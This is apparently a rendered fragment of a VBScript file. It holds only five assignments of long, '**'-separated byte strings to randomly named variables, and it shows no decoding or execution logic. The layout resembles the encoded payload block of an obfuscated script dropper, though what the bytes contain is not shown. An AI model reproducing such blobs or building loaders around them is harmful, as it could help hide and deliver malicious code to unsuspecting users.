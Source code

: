 ```vbscript
lgbtzJKofS = ("255**195**175**168**170**153**54**137**57**22**83**84**42**180**56**215**88**102**224**179**196**50**11**159**210**1**203**44**166**253**86**183**0**212**217**166**170**238**20**221**124**169**56**195**98**154**211**97**49**206**203**180**65**236**7**217**218**85**117**60**13**88**104**177**147**172**129**198**25**36**219**6**202**133**108**180**192**70**178**71**65**142**20**217**153**112**19**102**34**211**27**170**90**40**124**46**205**176**24**23**100**86**89**232**76**164**111**87**8**243**76**244**111**165**126**96**221**42**205**177**152**163**105**208**244**100**88**204**243**58**128**185**203**98**44**204**92**55**160**165**225**216**8**186**19**182**105**95**17**71**16**186**135**72**97**21**197**68**218**129**96**204**165**218**153**236**108**194**46**251**215**195**143**145**45**116**251**48**70**25**41**232**113**103**98**142**32**39**252**88**104**77**10**45**85**69**209**244**91**182**26**231**221**158**54**175**73**42**182**44**129**68**201**120**173**187**171**131**162")

lgbtr4gygt = ("**227**179**148**162**45**149**113**6**117**186**56**208**92**109**111**170**234**1**178**247**91**242**111**142**26**183**166**221**46**73**31**100**112**163**185**153**95**130**45**75**96**251**197**91**170**202**127**2**92**100**177**85**96**5**236**168**210**247**74**123**33**191**33**5**179**189**86**164**202**156**76**30**131**21**160**207**160**147**35**252**159**105**156**153**98**156**4**116**171**132**191**254**245**44**177**228**220**96**177**151**90**114**80**95**203**63**11**45**230**57**98**73**57**14**26**199**252**27**85**189**147**108**209**127**195**86**105**94**52**109**113**70**23**135**18**182**228**44**230**94**138**45**246**155**50**58**186**56**60**30**219**22**144**7**118**45**169**115**40**197**28**10**185**161**54**112**64**27**50**41**189**149**183**249**179**181**15**180**19**246**63**21**227**174**64**142**22**99**21**72**161**146**215**43**52**229**175**185**108**12**246**215**77**33**198**255**110**97**71**138**236**40**100**126**200**58**83**100**69**17")

lgbtZWyVDY = ("**60**3**144**125**152**34**123**2**178**39**214**179**175**92**178**225**119**22**168**20**84**3**106**0**109**3**61**10**218**3**218**11**58**20**210**116**251**192**179**112**16**77**7**21**129**170**64**27**65**45**97**173**255**49**240**118**208**123**160**99**32**139**130**156**80**232**111**44**180**254**239**129**47**2**173**6**249**65**183**129**238**0**181**128**126**6**250**39**208**83**160**93**160**118**208**27**160**3**160**67**160**15**65**189**160**207**64**167**64**38**204**243**124**80**78**228**219**53**143**155**138**203**22**21**151**92**243**87**252**26**128**34**167**151**203**202**210**64**141**43**224**193**129**92**188**209**45**7**233**172**156**231**243**227**106**160**153**176**10**67**241**70**159**82**26**170**115**203**97**49**5**182**94**154**47**43**11**235**60**17**191**188**128**219**206**17**115**35**57**169**206**209**142**114**161**206**218**89**97**72**118**41**50**28**235**170**44**99**212**114**220**51**184**72**87**99**91**89**161**191**46**44")

lgbtkNnoUJ = ("**124**10**89**36**189**220**47**203**65**94**127**73**248**41**174**151**3**138**112**180**138**198**44**113**133**149**226**80**168**78**128**94**126**195**162**27**22**21**47**225**211**124**13**55**27**204**38**32**43**55**7**229**128**62**58**98**153**148**23**214**5**2**184**234**136**174**13**108**129**162**4**73**183**76**94**31**145**195**186**252**96**82**191**156**92**241**155**145**238**235**54**110**83**46**7**60**3**109**222**74**218**148**201**46**79**255**84**183**245**143**61**104**190**111**179**34**217**47**43**131**239**96**172**151**21**147**197**96**49**251**189**116**198**123**27**203**75**43**145**93**245**167**137**217**79**140**75**252**97**4**109**153**203**31**145**217**175**140**226**110**134**117**83**160**194**216**43**198**212**219**26**99**223**97**149**149**213**178**82**235**242**5**92**161**234**48**91**136**118**176**178**82**14**212**251**66**228**239**102**173**237**165**191**250**162**31**127**42**43**195**178**82**233**10**6**43**149**77**65**72")

lgbtqfKOYg = ("**238**101**149**110**25**57**132**53**55**84**250**234**214**48**246**35**67**101**93**128**139**30**51**144**178**102**57**95**114**173**169**11**41**108**145**132**37**230**250**229**18**112**227**6**135**44**148**52**73**165**228**117**83**200**24**91**43**121**235**176**72**200**69**111**72**70**59**34**121**195**178**188**142**109**144**188**138**140**117**223**36**121**55**80**130**81**86**214**202**181**238**32**102**242**172**20**140**40**238**26**87**136**181**75**97**95**117**192**133**167**160**87**170**247**6**67**190**128**226**197**125**36**120**102**26**252**236**204**10**126**61**84**27**174**119**135**20**125**148**255**187**66**247**243**195**23**57**135**83**59**87**190**165**197**208**226**100**57**160**172**42**39**51**54**56**135**83**63**87**190**181**37**141**255**45**48**238**167**13**22**198**239**198**13**54**240**59**180**215**180**148**98**224**223**27**57**135**144**143**49**226**222**51**80**168**125**169**11**221**224**25**244**223**100**131**139**230**")

```